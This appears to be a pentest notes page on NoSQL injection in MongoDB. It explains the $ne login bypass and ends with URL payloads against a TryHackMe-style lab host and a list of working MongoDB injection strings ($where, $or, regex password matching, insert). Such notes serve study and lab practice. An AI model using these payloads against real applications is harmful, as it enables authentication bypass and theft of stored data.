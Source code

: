 # NoSQLi

## NoSQLi

{% hint style="info" %}
NoSQL injection is a web security vulnerability that allows the attacker to have control over the database.

A NoSQL injection happens by sending queries via **untrusted** and **unfiltered** web application input, which leads to leaked unauthorized information.

In addition, the attacker can use the NoSQL injection to perform various operations such as **modifying data, escalating privileges, DoS attacks**, and others.
{% endhint %}

### Bypassing login pages

Connect to the database and then look for a certain **username : password** IF they exist in the collection (_in the database_), then we have a valid entry.

The following is the query that is used in the web applications used on our login :

```sql
db.users.find({query})
db.users.findOne(query)
```

Functions where the query is JSON data that's send via the application :&#x20;

```json
{"username": "admin", "password":"adminpass"}
```

**MongoDB operators heavily used in the injections :**

* `$eq` - matches records that equal to a certain value.
* `$ne` - matches records that are not equal to a certain value.
* `$gt` - matches records that are greater than a certain value.
* `$where` - matches records based on Javascript condition.
* `$exists` - matches records that have a certain field.
* `$regex` - matches records that satisfy certain regular expressions.

***

#### `$ne`

Inject a JSON objection **{"$ne": "XYZ"}** in the **password** field, and change the logic to become as follows :

```
# Similar to admin'--
# Ignores the password input
Instructing MongoDB to find a document (user) with a username equal to **admin** and his password is not equal to **xyz**, which turns this statement to TRUE because the admin's password is not xyz.
```

In the case, we wanted to log in to a system as another user who is not admin :

* _Instruct MongoDB to find a document that its username is not equal to admin and its password is not equal to xyz, which returns the statement as true._

![](<../../../.gitbook/assets/image (143).png>)

### Exploiting NoSQL injection

```bash
 http://example.thm.labs/search?username=admin&role[$ne]=user
 http://example.thm.labs/search?username=ben&role=user
 http://example.thm.labs/search?username[$ne]=ben&role=user
 
# On Login pages / search bars
admin' || 'a'=='a
```

#### MongoDB payloads

```plsql
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```
